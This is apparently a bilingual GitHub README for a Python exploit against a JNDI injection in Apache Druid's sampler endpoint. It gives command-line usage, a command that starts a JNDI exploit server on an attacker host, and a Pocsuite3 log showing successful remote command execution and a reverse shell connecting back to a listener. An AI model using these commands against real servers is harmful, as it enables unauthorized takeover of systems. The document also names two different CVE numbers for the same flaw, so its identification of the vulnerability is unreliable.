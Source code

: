 # Apache Druid JNDI Vuln
## Druid JNDI 注入漏洞利用脚本
本项目是一个利用 Druid JNDI 注入漏洞的 Python 脚本。该漏洞存在于 Druid 的 indexer/v1/sampler 接口中，攻击者可以通过构造恶意请求，在目标服务器上执行任意命令。

This project is a Python script that exploits the Druid JNDI injection vulnerability. The vulnerability exists in the indexer/v1/sampler interface of Druid, allowing an attacker to execute arbitrary commands on the target server by constructing a malicious request.

## 使用方法
使用该脚本需要提供以下参数：
- -t 或 --target：目标服务器的 IP 地址或主机名；
- -j 或 --jndi-ip：JNDI 服务器的 IP 地址；
- -c 或 --cmd：要执行的命令。
## 示例：

```bash
python druid.py -t 192.168.0.1 -j 192.168.0.2 -c "touch /tmp/success"
```
使用该脚本需要先安装 Python 3 和 requests 库。

## 注意事项
该脚本仅用于授权的渗透测试或教育目的，禁止用于非法用途；
在使用该脚本时，请务必遵守当地法律法规和道德准则，自行承担使用该脚本所造成的风险和后果；
该脚本可能会对目标服务器造成不可逆的损害，请谨慎使用。

Druid JNDI Injection Exploit Script
This project is a Python script that exploits the Druid JNDI injection vulnerability. The vulnerability exists in the indexer/v1/sampler interface of Druid, allowing an attacker to execute arbitrary commands on the target server by constructing a malicious request. The CVE number for this vulnerability is CVE-2021-38645.

## Usage
To use this script, you need to provide the following parameters:
- -t or --target: the IP address or hostname of the target server;
- -j or --jndi-ip: the IP address of the JNDI server;
- -c or --cmd: the command to execute.
## Example:

```bash
python druid.py -t 192.168.0.1 -j 192.168.0.2 -c "touch /tmp/success"
```
To use this script, you need to install Python 3 and the requests library first.

## Disclaimer
This script is for authorized penetration testing or educational purposes only. It is strictly prohibited to use it for illegal purposes;
When using this script, please comply with local laws and regulations, and ethical standards. You are solely responsible for the risks and consequences caused by using this script;This script may cause irreversible damage to the target server. Use it at your own risk.

# 复现
启动 [JNDIExploit-1](https://github.com/Avento/JNDIExploit-1)
```bash
java -jar JNDIExploit.jar -i 192.168.47.1
```

执行 poc 脚本
```bash
python druid.py -t 192.168.2.222 -j 192.168.47.1 -c "touch /tmp/success"
```
# Pocsuite3
```bash
Pocsuite3 > use pocs\Java_Druid_CVE-2023-25194
Pocsuite3 (pocs\Java_Druid_CVE-2023-25194) > set target http://192.168.47.130:8888/unified-console.html
[11:01:18] [INFO] target => http://192.168.47.130:8888/unified-console.html
Pocsuite3 (pocs\Java_Druid_CVE-2023-25194) > attack
[11:01:20] [INFO] pocsusite got a total of 1 tasks
[11:01:20] [INFO] running poc:'Apache Druid(Apache Kafka) JNDI 注入 PoC' target 'http://192.168.47.130:8888/unified-console.html'
[11:01:20] [+] Status : 500
[11:01:20] [+] Host : 192.168.47.130:8888
[11:01:20] [+] URL : http://192.168.47.130:8888/druid/indexer/v1/sampler
[11:01:20] [+] Command : touch /tmp/success_druid_pocsuite3
[11:01:20] [INFO] Scan completed,ready to print

+-------------------------------------------------+------------------------------------------+--------+--------------+------------+---------+
| target-url                                      |                 poc-name                 | poc-id |  component   |  version   |  status |
+-------------------------------------------------+------------------------------------------+--------+--------------+------------+---------+
| http://192.168.47.130:8888/unified-console.html | Apache Druid(Apache Kafka) JNDI 注入 PoC |   0    | Apache Druid |  <= 25.0.0 | success |
+-------------------------------------------------+------------------------------------------+--------+--------------+------------+---------+
success : 1 / 1
Pocsuite3 (pocs\Java_Druid_CVE-2023-25194) > shell
[11:01:49] [INFO] pocsusite got a total of 1 tasks
[11:01:49] [*] listening on 0.0.0.0:6666
[11:01:49] [INFO] running poc:'Apache Druid(Apache Kafka) JNDI 注入 PoC' target 'http://192.168.47.130:8888/unified-console.html'
[11:01:49] [+] new connection established from 10.91.56.84
[11:01:49] [INFO] connect back ip: 10.91.56.84    port: 6666
[11:01:49] [INFO] watting for shell connect to pocsuite
Now Connected: 10.91.56.84
SHELL (10.91.56.84) > whoami
bash: no job control in this shell
[qax@localhost apache-druid-0.19.0]$ whoami
ikun
```
